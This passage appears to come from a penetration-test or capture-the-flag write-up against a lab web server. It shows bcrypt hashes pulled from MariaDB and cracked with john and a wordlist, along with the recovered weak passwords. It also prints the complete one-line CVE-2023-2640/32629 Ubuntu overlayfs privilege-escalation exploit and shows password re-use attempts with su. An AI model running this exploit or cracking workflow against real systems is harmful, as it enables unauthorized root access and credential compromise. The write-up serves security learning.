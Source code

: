 ```
+----+----------+--------------------------------------------------------------+---------------------+
3 rows in set (0.000 sec)
```

The tester found hashed passwords. Password re-use is a common problem, so the tester attempted to crack the passwords using `john`.

```shell
$ cat hashes
admin:$2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2
patient:$2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO

$ john --wordlist=/home/kali/Public/rockyou.txt hashes 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           (admin)     
patient          (patient)     
2g 0:00:05:09 DONE (2024-06-11 09:41) 0.006472g/s 173.0p/s 173.1c/s 173.1C/s pepsie..nate12
```

- `admin:123456`
- `patient:patient`

## Vulnerabilities

### Linux 5.19.0-35-generic

This version of the Linux kernel is older. The tester searched using terms `Linux 5.19.0 cve poc` and found the following exploit:

[https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

The URL for downloading the exploit is [https://raw.githubusercontent.com/g1vi/CVE-2023-2640-CVE-2023-32629/main/exploit.sh](https://raw.githubusercontent.com/g1vi/CVE-2023-2640-CVE-2023-32629/main/exploit.sh).

The exploit is small and can be brought to the target using copy and paste.
```shell
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

## Exploitation

The tester tried to re-use the passwords from the MariaDB to access the `drwilliams` account.

```shell
www-data@webserver:/var/www/html/uploads$ su drwilliams
Password: 123456
su: Authentication failure
www-data@webserver:/var/www/html/uploads$ 
www-data@webserver:/var/www/html/uploads$ su drwilliams
Password: patient
su: Authentication failure
www-data@webserver:/var/www/html/uploads$ 
```
